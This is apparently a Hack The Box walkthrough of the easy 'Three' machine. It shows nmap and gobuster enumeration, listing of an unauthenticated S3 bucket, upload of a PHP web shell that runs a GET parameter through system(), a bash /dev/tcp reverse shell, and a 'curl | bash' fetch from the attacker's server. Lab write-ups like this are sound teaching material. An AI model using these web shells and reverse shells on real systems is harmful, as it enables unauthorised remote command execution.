 # HTB - Three Writeup

Machine Name: Three

IP : 10.129.227.248

Hardness : Easy

## Nmap Scan

$ `sudo nmap -sV 10.129.227.248`

![image.png](image.png)

Good we have two ports open,

`Port 22 - SSH`

`Port 80 - Webserver`

Add the domain name mapping to /etc/hosts file:

`echo "10.129.227.248 s3.thetoppers.htb" | sudo tee -a /etc/hosts` 

Checking the website I couldn’t find anything much except for a .php endpoint that didn’t work, but that did give us an idea that the website is built upon PHP.

Now the next thing we can try is to find subdomains. Lets use Gobuster to enumerate subdomains.

```jsx
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
```

![image.png](image%201.png)

This reveals one subdomain: s3.thetoppers.htb. And going to that website gives us a single JSON data

![image.png](image%202.png)

s3 is for the Amazon cloud service for storing data, this is a container amazon calls buckets. They have various benefits like backups, media storage, files etc. So now we know the subdomain `s3.thetoppers.htb` is a aws s3 service.

in order to interact with an S3 bucket we need an application called `awscli` .

install it using this command:

```bash
sudo apt install awscli
```

to see all the buckets hosted by the service we can use the command:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

Now that will give us the aws configure error telling us we should do the configuration first.

```bash
aws configure
```

After a small research I found that there was no need for the credentials, there should just be something to fill the variables.

![image.png](image%203.png)

Now running the first command again:

![image.png](image%204.png)

This list all the buckets, and now we can use the same commands to list the contents of that specific bucket:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

![image.png](image%205.png)

Now we have something interesting here, This looks like the root directory of the webserver. a .htaccess, index.php, and a images/ folder. We can confirm that this is the websites root directory and the webserver is ran using PHP.

Now we can try the copy feature of the awscli to copy a reverse shell to this directory and access it using the website which turns it executable and gives us a shell.

### Reverse shell

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Now lets try copying it to the bucket

```php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Now go to the browser and type in [`http://thetoppers.htb/reverse.php`](http://thetoppers.htb/reverse.php) .

Now you will have the prompt for a shell.

![image.png](image%206.png)

So now we need a proper reverse shell the most simple thing we can do right now is to download a reverse shell into the server and execute it there.

reverse shell:

```php
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.100/1234 0>&1
```

Now save this as shell.sh

Open another terminal and start a netcat listener:

```php
nc -lnvp 1234
```

Then start a python webserver on the same directory using this command:

```php
python3 -m http.server 8000
```

Then go back to the webpage where you can type in commands and then type this in:

```php
curl http://10.10.14.100:8000/shell.sh|bash
```

Now click Execute. 

Now if you look at the netcat listener:

![image.png](image%207.png)

There you have the reverse shell.

Now the flag can be found at /var/www/flag.txt

FLAG : `a980d99281a28d638ac68b9bf9453c2b`